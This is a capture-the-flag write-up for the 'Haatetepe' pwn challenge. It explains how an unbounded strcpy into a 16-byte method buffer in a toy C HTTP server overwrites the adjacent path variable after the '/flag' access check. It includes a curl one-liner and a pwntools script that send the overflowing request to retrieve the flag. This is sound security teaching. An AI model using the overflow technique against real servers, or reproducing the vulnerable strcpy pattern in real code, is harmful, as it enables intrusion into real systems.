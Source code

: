 # Haatetepe – NNS CTF 2025 (PWN)

## Challenge description
> *"The best haatetepe server in Norway comes with speed, small size and modular routing. I've disabled the /flag route for now, though. Check out the server and let me know what you think! I haven't done any benchmarks, but I bet it's faster than NGINX, and it uses less than 1MB memory! It's in its (very) early stages, but I'm planning on implementing the rest of the HTTP header specification when I get time. Thanks for stopping by! "*  

We are given a simple HTTP server written in C (`main.c`). It implements minimal request parsing and routing:
- Supports `GET` and `HEAD` requests.
- Has a route `/flag` that calls `serve_flag()`, which directly returns the flag from the environment.
- **BUT**: `parse_request()` blocks direct access by rejecting any request where the path is `/flag`.

So the goal is to bypass the `/flag` check and trick the server into serving it.

---

## Vulnerable code

```c
int parse_request(http_request_header_t *req, char *buf) {
  char version_str[16];
  char method_str[16];
  char path[256];
  char *header[3];

  // split "METHOD PATH HTTP/VERSION"
  ...

  strncpy(version_str, header[2], sizeof(version_str) - 1);
  strncpy(path, header[1], sizeof(req->path) - 1);

  // don't even think about it
  if (strcmp(path, "/flag") == 0) {
    return -1;
  }

  strcpy(method_str, header[0]);   // <-- VULN
  req->method = parse_method(method_str);
  strcpy(req->path, path);
  ...
}
```

The bug:

- `method_str` is only 16 bytes.
- `strcpy(method_str, header[0])` allows arbitrary-length methods → buffer overflow.
- The overflow **smashes into the local variable `path`**, overwriting it after the `/flag` check has already happened.

## Vulnerability

Because `path` is re-copied into `req->path` **after** the overflow, we can do this:

1. Send a very long "method" string:  
    `"GET" + "A"*13 + "/flag"`  
    → `"GET"+"A"*13` is exactly 16 bytes (fills `method_str`),  
    → The next bytes overwrite `path` with `"/flag"`.
2. The initial check (`if (strcmp(path, "/flag") == 0)`) passes because `path` still contained the harmless `/`.
3. After overflow, `path` now equals `"/flag"`.
4. `req->path = "/flag"` is routed normally → `serve_flag()` returns the flag!

This is a **classic stack smash between local variables**.

## Exploit

We can exploit it with a raw `curl`:
```bash
curl -v -X 'GETAAAAAAAAAAAAA/flag' http://target:8000/
```

But here’s a pwntools script to automate it:
```python
#!/usr/bin/env python3
from pwn import *
import re

HOST = "87f4cc2f-1394-4918-9292-46bd7fa5714f.chall.nnsc.tf"
PORT = 41337

def main():
    context.log_level = "info"

    # "GET" + "A"*13 = 16 bytes → overflow starts
    method = "GET" + "A" * 13 + "/flag"

    req = (
        f"{method} / HTTP/1.1\r\n"
        f"Host: {HOST}\r\n"
        f"Connection: close\r\n"
        f"\r\n"
    )

    io = remote(HOST, PORT, ssl=True)
    io.send(req.encode())

    resp = io.recvall(timeout=5).decode(errors="ignore")
    io.close()

    print("=== Raw response ===")
    print(resp)

    m = re.search(r"Flag:\s*([^\s]+)", resp)
    if m:
        print(f"\n[+] Flag found: {m.group(1)}")

if __name__ == "__main__":
    main()
```
